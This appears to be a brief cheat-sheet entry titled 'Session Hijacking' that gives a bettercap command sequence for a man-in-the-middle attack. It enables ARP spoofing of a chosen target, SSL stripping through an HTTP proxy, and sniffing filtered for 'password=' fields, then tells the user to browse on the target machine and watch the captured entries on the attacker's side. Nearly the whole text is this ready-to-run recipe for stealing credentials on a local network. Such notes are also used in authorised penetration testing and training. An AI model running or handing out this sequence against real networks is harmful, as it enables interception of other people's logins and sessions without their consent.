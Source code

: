 # Session Hijacking

## bettercap

```
bettercap -h
bettercap -iface eth0
net.probe on
net.recon on
set http.proxy.sslstrip true
set arp.spoof.internal true
set arp.spoof.targets	target
http.proxy on
arp.spoof on
net.sniff on
set net.sniff.regexp'.*password=.+'
```
Go to target machine
visit any website
Enteries will be seen on attacker's machine
	

